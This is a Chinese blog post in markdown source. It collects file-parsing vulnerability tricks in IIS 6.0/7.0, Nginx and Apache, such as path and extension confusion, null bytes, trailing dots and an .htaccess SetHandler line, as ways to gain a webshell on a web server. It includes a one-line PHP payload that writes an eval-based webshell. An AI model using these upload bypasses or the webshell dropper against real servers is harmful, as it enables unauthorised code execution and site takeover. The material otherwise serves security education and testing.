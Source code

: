 ```yaml
---
layout: post
category: binghe-code-hack
title: 各种解析漏洞拿shell
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 各种解析漏洞拿shell
lock: need
---
```


# 各种解析漏洞拿shell

## IIS 6.0解析漏洞

IIS 6.0解析利用方法有两种

## 目录解析

```bash
 /xx.asp/xx.jpg
```

## 文件解析

```bash
 wooyun.asp;.jpg
```

第一种，在网站下建立文件夹的名字为 .asp、.asa 的文件夹，其目录内的任何扩展名的文件都被IIS当作asp文件来解析并执行。

例如创建目录 wooyun.asp，那么

```bash
/wooyun.asp/1.jpg
```

将被当作asp文件来执行。假设黑阔可以控制上传文件夹路径,就可以不管你上传后你的图片改不改名都能拿shell了。

第二种，在IIS6.0下，分号后面的不被解析，也就是说

```bash
wooyun.asp;.jpg
```

会被服务器看成是wooyun.asp

还有IIS6.0 默认的可执行文件除了asp还包含这三种

```bash
 /wooyun.asa
 /wooyun.cer
 /wooyun.cdx
```

乌云上的IIS 6.0解析漏洞利用案例

[http://www.wooyun.org/searchbug.php?q=IIS6.0](http://jump.bdimg.com/safecheck/index?url=x+Z5mMbGPAu1LJqUU6N6bPwYE5jYY0erwhch2HTMVMClV4srKPs80oVo9b2RHyJaNX2c8GT2w8o9uaWWhw0XNAjvrJznv9sKyV+a9HOSQ5uf9gu4VD5hJMGsrMXUaIpg1vI4wK0nw69B6Rwt01WTC3Y9qHh6BM0y)

## IIS 7.0/ Nginx <8.03畸形解析漏洞

Nginx解析漏洞这个伟大的漏洞是我国安全组织80sec发现的…

在默认Fast-CGI开启状况下,黑阔上传一个名字为wooyun.jpg，内容为

```bash
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?> 
```

的文件，然后访问wooyun.jpg/x.php,在这个目录下就会生成一句话木马 shell.php

这个漏洞案例

* WooYun: 用友软件某分站SQL注入漏洞+nginx解析漏洞
* WooYun: 新浪网分站多处安全漏洞（nginx解析+SQL注射等）小礼包
* WooYun: kingsoft.com某x级域名nginx解析漏洞+爆路径

## Nginx <8.03 空字节代码执行漏洞

影响版本0.5.,0.6, 0.7 <= 0.7.65, 0.8 <= 0.8.37 Nginx在图片中嵌入PHP代码然后通过访问 xxx.jpg%00.php 来执行其中的代码 Nginx 空字节代执行漏洞案例[http://www.wooyun.org/searchbug.php?q=%2500.php](http://jump.bdimg.com/safecheck/index?url=x+Z5mMbGPAu1LJqUU6N6bPwYE5jYY0erwhch2HTMVMClV4srKPs80oVo9b2RHyJak+PNtwAIfGCgHZ+Fsy3GyIQ8yExvH7HOsIk1gGycfXV71W/t7TguM+xzIgsPTqM7t9C+S0h3NSVBLMQEJGI5JcqrwRgpxE70MDxm7iZ2BjQ=)

## Apache解析漏洞

Apache 是从右到左开始判断解析,如果为不可识别解析,就再往左判断.

比如 wooyun.php.owf.rar ".owf"和".rar" 这两种后缀是apache不可识别解析,apache就会把wooyun.php.owf.rar解析成php.

如何判断是不是合法的后缀就是这个漏洞的利用关键,测试时可以尝试上传一个wooyun.php.rara.jpg.png…（把你知道的常见后缀都写上…）去测试是否是合法后缀

## Apache解析漏洞案例

 [空格] 或xx.jpg. 这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点,黑客可以通过抓包，在文件名后加一个空格或者点绕过黑名单.若上传成功，空格和点都会被windows自动消除,这样也可以getshell。

如果在Apache中.htaccess可被执行.且可被上传.那可以尝试在.htaccess中写入:

```bash
SetHandler application/x-httpd-php
```

然后再上传shell.jpg的木马, 这样shell.jpg就可解析为php文件。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
